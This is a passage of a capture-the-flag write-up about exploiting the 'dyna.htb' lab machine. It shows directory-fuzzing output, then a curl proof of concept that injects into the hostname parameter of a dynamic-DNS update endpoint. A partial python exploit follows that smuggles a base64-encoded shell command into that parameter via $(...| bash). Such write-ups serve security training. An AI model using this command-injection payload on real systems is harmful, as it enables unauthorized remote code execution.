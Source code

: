 ```bash
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

update                  [Status: 200, Size: 8, Words: 1, Lines: 2]
                        [Status: 200, Size: 0, Words: 1, Lines: 1]
                        [Status: 200, Size: 0, Words: 1, Lines: 1]
:: Progress: [62283/62283] :: Job [1/1] :: 40 req/sec :: Duration: [0:01:11] :: Errors: 3 ::

```

And endpoint `/nic/update` returned `badauth` when accessed

## Remote Code Execution

### Proof of Concept

```bash
curl "<http://dynadns:sndanyd@dyna.htb/nic/update?hostname=as'df.dnsalias.htb>"
911 [nsupdate failed]

```

Error message showing that `nsupdate` failed `nsupdate` is shell utility that could be used to update dynamic DNS records. For this case it is possible to inject shell commands.

<figure><img src="../../.gitbook/assets/Pasted_image_20210713122203 (1).png" alt=""><figcaption></figcaption></figure>

This allowed to execute `ping` command to my local machine.

<figure><img src="../../.gitbook/assets/Pasted_image_20210713222221 (2).png" alt=""><figcaption></figcaption></figure>

### Exploit

```python
import requests
import base64
import argparse

parser = argparse.ArgumentParser(description="Just some funky automation")
parser.add_argument("--host", dest="host")
parser.add_argument("--payload", dest="payload")
parser.add_argument("--auth", dest="auth", help="String in format username:password")
args = parser.parse_args()

payload = base64.b64encode(args.payload.encode()).decode()

payload = {
    'hostname': f'$(echo "{payload}" | base64 -d | bash).dnsalias.htb'
        }

URL = f'http://{args.host}/nic/update'
auth = args.auth.strip().split(':')

```